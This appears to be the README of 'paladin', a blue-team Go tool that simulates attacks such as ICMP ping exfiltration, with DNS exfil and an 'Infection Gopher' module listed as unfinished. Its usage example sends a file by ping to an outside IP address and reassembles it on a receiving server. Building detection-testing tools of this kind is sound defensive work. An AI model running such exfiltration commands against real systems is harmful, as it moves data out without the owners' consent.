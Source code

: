 <p align="center"> 
  <img src="images/logo.png" width="250" title="paladin" align="center">
  <p align="center">A blueteam tool to simulate attacks using Atomic Red Team and other techniques.</p>
</p>

---

## Getting started

### Ping Exfil

The ping exfil subcommand is working and implements a basic ping exfil attack scenario.
```
Run ping exfil like tests on current host

Usage:
  paladin exfil ping [flags]
  paladin exfil ping [command]

Available Commands:
  receive     Packet capture ping requests and reassemble files

Flags:
  -d, --destination string   The Destination Host of the Ping
  -f, --file string          The name of the file to send over ping
  -h, --help                 help for ping

Use "paladin exfil ping [command] --help" for more information about a command.
```
#### Basic Usage
Client

```console
$ paladin exfil ping -d 45.63.67.242 -f test.txt
```

Server
```console
$ paladin exfil ping receive -i ens3
```
### Atomic Red Team


### DNS Exfil
WIP

### Infection Gopher
WIP

## Local Development

This project requires Go to be installed. On OS X with Homebrew you can just run `brew install go`.

Building locally requires statik 

```console
$ go get github.com/rakyll/statik
```

Running it then should be as simple as:

```console
$ make
$ ./bin/paladin
```